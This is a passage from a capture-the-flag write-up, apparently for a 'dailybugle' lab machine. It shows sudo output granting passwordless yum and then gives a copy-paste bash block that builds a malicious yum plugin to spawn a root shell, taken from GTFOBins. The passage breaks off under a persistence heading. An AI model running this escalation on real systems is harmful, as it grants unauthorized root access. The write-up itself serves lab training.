```text
Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME
    HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```

Doing a quick search on gtfobins, gives us an easy solution:

> <https://gtfobins.github.io/gtfobins/yum/#sudo>

I'll recreate it here. We basically construct a plug-in that just spawns a shell. Then we tell `yum` to run our plug-in. You can copy/paste this block of code:

```bash
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```

You now have a `root` prompt. The root flag is available at: `/root/root.txt`

## PHASE 4: Maintaining Access & Persistence

This is a test/CTF machine, so this is out of scope. However, in a Red Team scenario, we could:

